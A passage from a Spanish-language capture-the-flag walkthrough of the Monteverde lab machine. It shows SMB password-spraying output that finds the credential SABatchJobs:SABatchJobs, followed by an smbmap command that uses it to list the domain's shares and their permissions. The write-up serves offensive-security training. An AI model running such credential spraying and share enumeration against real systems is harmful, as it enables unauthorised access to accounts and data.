 ```bash
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:AAD_987d7f2f57d2 STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:mhope STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:SABatchJobs STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:svc-ata STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:svc-bexec STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:svc-netapp STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:dgalanos STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:roleary STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:smorgan STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\SABatchJobs:Guest STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\SABatchJobs:AAD_987d7f2f57d2 STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\SABatchJobs:mhope STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK.LOCAL\SABatchJobs:SABatchJobs 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\SABatchJobs:svc-ata STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\SABatchJobs:svc-bexec STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\SABatchJobs:svc-netapp STATUS_LOGON_FAILURE 
```

Obtenemos unas credenciales validas `SABatchJobs:SABatchJobs` y con estas podemos tratar de enumerar los recursos compartidos.


```bash
❯ smbmap -H 10.10.10.172 -u 'SABatchJobs' -p 'SABatchJobs'
    IP: 10.10.10.172:445	Name: MEGABANK.LOCAL                                    
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	azure_uploads                                     	READ ONLY	
	C$                                                	NO ACCESS	Default share
	E$                                                	NO ACCESS	Default share
	IPC$                                              	READ ONLY	Remote IPC
	NETLOGON                                          	READ ONLY	Logon server share 
	SYSVOL                                            	READ ONLY	Logon server share 
	users$                                            	READ ONLY	
```

